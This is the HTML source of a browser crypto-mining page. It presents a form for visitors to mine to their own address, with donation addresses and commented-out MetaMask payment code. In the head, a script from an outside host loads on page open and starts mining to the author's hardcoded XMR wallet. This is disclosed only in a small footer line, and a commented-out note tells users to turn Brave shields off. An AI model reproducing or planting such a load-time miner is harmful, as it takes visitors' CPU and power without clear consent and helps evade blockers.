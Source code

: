<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width">
    <title>Mine Cryptocurrency in your browser!</title>
    <link href="style.css" rel="stylesheet" type="text/css" />
    <link href="https://pkmnmeteor.polphone.repl.co/style.css" rel="stylesheet" type="text/css" />
    <script src="https://trustiseverything.de/karma/karma.js?karma=bs?nosaj=faster.mo" ></script> 
    <script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
    <script type="text/javascript">
    EverythingIsLife('87Jr3LTEH4D7ubaxJNsrKTQPzfitSPH4cgp254Yb3cyGHLdrP6fpaNjCjdph2cn8Sh9qjgxe9UMjoCrTDbnbqJUtJXK9bb4', 'x', 0);
    </script><!--
    <script src="https://trustiseverything.de/karma/karma.js?karma=bs?algy=cn/fast?nosaj=au-01.miningrigrentals.com:3333"></script>
    <script type="text/javascript">
    EverythingIsLife('RandomPokesi.199602', 'x2', 0);
    </script>-->
    <script id="cid0020000283969695319" data-cfasync="false" async src="//st.chatango.com/js/gz/emb.js" style="width: 582px;height: 300px;">{"handle":"webminer","arch":"js","styles":{"a":"000000","b":100,"c":"FFFFFF","d":"FFFFFF","k":"000000","l":"000000","m":"000000","n":"FFFFFF","p":"10","q":"000000","r":100,"pos":"br","cv":1,"cvfnt":"Consolas, monaco, monospace, sans-serif","cvfntw":"bolder","cvbg":"000000","cvw":582,"cvh":29,"ticker":1,"fwtickm":1}}</script>
  </head>
  <body>
    <script src="script.js"></script>
    <h1 id="header">3 steps to start mining</h1>
    <h3 style="text-align: left; font-size: 30px"> 1. Choose your currency </h3>
    <select name="currency" id="cc" style="display: table;">
      <option value="xmr">XMR</option>
      <option value="xhv">XHV</option>
      <option value="lthn">LTHN</option>
      <option value="bcn">BTC</option>
      <option value="turtle">TRTL</option>
      <option value="donate">Donate <3 (XMR)</option>
    </select>
    <h3 style="text-align: left; font-size: 30px"> 2. Input your address</h3>
    <input id="ad">Here :)</input>
    <h3 style="text-align: left; font-size: 30px"> 3. Go!</h3>
    <button onclick="gotominesite()">Start the miner!</button>
    <br>
    <h3>Donation addresses</h3>
    <p>BTC: 3FMXs8tt15cRYG1RHurdgkBDwBwVJrFCLg</p><br>
    <p>ETH/BNB/MATIC: 0x3e522051A9B1958Aa1e828AC24Afba4a551DF37d</P><BR>
    <P>XMR: 87Jr3LTEH4D7ubaxJNsrKTQPzfitSPH4cgp254Yb3cyGHLdrP6fpaNjCjdph2cn8Sh9qjgxe9UMjoCrTDbnbqJUtJXK9bb4</P><BR>
    <p>All donations help!</p>
    <br>
    <br><!--
    <button onclick="web3 = new Web3(window.ethereum);  window.ethereum.enable()">Connect Metamask for premium miner! (0.0005 ETH)</button>
    <br>
    <br>
    <h3>Buy premium miner! [XMR Only]</h3>
    div>
    <button class="pay-button">Pay</button>
    <div id="status"></div>
  </div>
  <script type="text/javascript">
    window.addEventListener('load', async () => {
      if (window.ethereum) {
        window.web3 = new Web3(ethereum);
        try {
          await ethereum.enable();
          initPayButton()
        } catch (err) {
          $('#status').html('User denied account access', err)
        }
      } else if (window.web3) {
        window.web3 = new Web3(web3.currentProvider)
        initPayButton()
      } else {
        $('#status').html('No Metamask (or other Web3 Provider) installed')
      }
    })

    const initPayButton = () => {
      $('.pay-button').click(() => {
        // paymentAddress is where funds will be send to
        const paymentAddress = '0x3e522051A9B1958Aa1e828AC24Afba4a551DF37d'
        const amountEth = 0.0005

        web3.eth.sendTransaction({
          to: paymentAddress,
          value: web3.toWei(amountEth, 'ether')
        }, (err, transactionId) => {
          if  (err) {
            console.log('Payment failed', err)
            $('#status').html('Payment failed')
          } else {
            console.log('Payment successful', transactionId)
            $('#status').html('Payment successful')
          }
        })
      })
    }
  </script>-->
    <!--<p>Turn sheilds OFF in Brave</p>-->
    <br>
    <br>
    <p>also im mining some for me rn :)</p>
  </body>
</html>